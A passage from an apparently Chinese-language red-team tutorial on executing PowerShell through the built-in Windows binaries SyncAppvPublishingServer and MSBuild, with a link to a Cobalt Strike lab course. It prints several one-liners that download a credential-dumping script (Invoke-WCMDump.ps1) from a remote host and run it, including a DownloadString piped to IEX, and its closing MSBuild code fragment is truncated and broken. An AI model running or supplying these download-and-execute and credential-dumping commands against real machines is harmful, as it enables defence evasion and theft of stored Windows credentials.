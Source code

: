 ![v2-4bb2cf81da77ba1be4b7ad8a373c7951\_hd.j](https://pic2.zhimg.com/80/v2-4bb2cf81da77ba1be4b7ad8a373c7951\_hd.jpg)

这里要注意一点的是，脚本默认调用scripts下的文件，国内的cs大多为script目录，自行修改文件内的目录即可。

了解了相关的知识，我们在实操中是怎么运用呢？登录合天网安实验室寻找答案。

相关实验：CobaltStrike之代理和powershell

[实验:CobaltStrike之代理和powershell](http://www.hetianlab.com/expc.do?ec=ECID9d86-e94a-4c2f-ae12-ab36f212551b)

SyncAppvPublishingServer

SyncAppvPublishingServer是win10自带的服务，有vbs和exe两个版本，我们可以使用他们来做一些类似PS的操作

默认存放在C:\Windows\System32下面

![v2-c8a15002fffa1f7fafc621d5a641280a\_hd.j](https://pic3.zhimg.com/80/v2-c8a15002fffa1f7fafc621d5a641280a\_hd.jpg)

用法实例：

弹计算机：

```
C:\Windows\System32\SyncAppvPublishingServer.vbs "Break; Start-Process Calc.exe ”
```

![v2-930494ab6efee445a9cc19d3d67d37b2\_hd.j](https://pic4.zhimg.com/80/v2-930494ab6efee445a9cc19d3d67d37b2\_hd.jpg)

或者：

```
C:\Windows\System32\SyncAppvPublishingServer.vbs "Break; iwr http://192.168.1.149:443"
```

![v2-1134f3f8d147184d8b23149e203c73e4\_hd.j](https://pic4.zhimg.com/80/v2-1134f3f8d147184d8b23149e203c73e4\_hd.jpg)

你也可以去远程下载执行一些ps脚本就像下面这样：

```bash
C:\Windows\System32\SyncAppvPublishingServer.exe \
" Break; (New-Object System.Net.WebClient).DownloadFile('https://raw.githubusercontent.com/peewpw/Invoke-WCMDump/master/Invoke-WCMDump.ps1','$env:USERPROFILE/1.ps1'); Start-Process '$env:USERPROFILE/1.ps1' -WindowStyle Minimized;"
```

```bash
SyncAppvPublishingServer.exe "n;(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/peewpw/Invoke-WCMDump/master/Invoke-WCMDump.ps1') | IEX"
```

调用MSBuild.exe：

MSBuild是.Net框架中包含的工具，用于自动化创建软件产品的过程，包括编译源代码，打包，测试，部署和创建文档。

Msbuild依赖于.csproj文件，该文件具有XML语法，包含了.NET构建过程中的结果，类似于unix中的make，代码如下：

```
outputs = MyPipeline.Invoke(); 
MyRunspace.Close(); 
StringBuilder sb = new StringBuilder(); 
foreach (PSObject pobject in outputs) { sb.AppendLine(pobject.ToString()); 
} return sb.ToString(); }} ]]>< / Code>
```
